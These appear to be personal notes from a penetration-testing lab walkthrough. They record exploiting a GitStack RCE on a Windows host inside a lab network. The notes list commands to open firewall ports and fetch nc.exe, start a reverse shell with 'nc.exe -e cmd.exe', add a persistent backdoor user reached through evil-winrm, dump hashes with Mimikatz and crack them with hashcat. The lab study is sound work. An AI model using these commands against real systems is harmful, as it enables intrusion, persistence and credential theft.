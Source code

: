 - Found [RCE](https://www.exploit-db.com/exploits/43777) on `GitStack` (see [[10.200.81.150]])

# Grab a windows shell
---
- Since, our machine is not directly accessible, we can use the `prod` linux box to transfer a `nc`.
- But first, we need to **add the port** so we can transfer the file on the prod server
	- `firewall-cmd --zone=public --add-port PORT/tcp`
	- Transfer `nc.exe` on windows and `nc` on prod server.
	- On prod server:
		- `firewall-cmd --zone=public --add-port 9999/tcp`
		- `./nc -lnvp 9999`
		- `curl 10.200.81.200:8000/nc.exe -o nc.exe`
	- On windows machine (**through RCE exploit**):
		- `Enter Command: nc.exe -e cmd.exe 10.200.81.200 9999`
- ![[Pasted image 20250403162837.png]]

- `twreath`'s hash found:
- ![[Pasted image 20250403163408.png]]
- `netsh advfirewall firewall add rule name="Chisel-drasstrange" dir=in action=allow protocol=tcp localport=47001`

 - **We can add user for persistant access**
---
- `net user /add hawkeye Password1`
- `evil-winrm` to connect:
	- `evil-winrm -i 10.200.81.150 -u hawkeye -p Password1`

# Mimikatz
---
- Get them `hashes` using mimkatz:
	- We can use the `Administrator` hash to login using `evil-winrm`:
		- ![[Pasted image 20250404171534.png]]
	- Thomas's Hash:
		- ![[Pasted image 20250404171602.png]]
	- Let's crack Thomas's hash:
		- `hashcat thomas_windows_hash  /usr/share/wordlists/rockyou.txt -m 1000`
			- ![[Pasted image 20250404171656.png]]

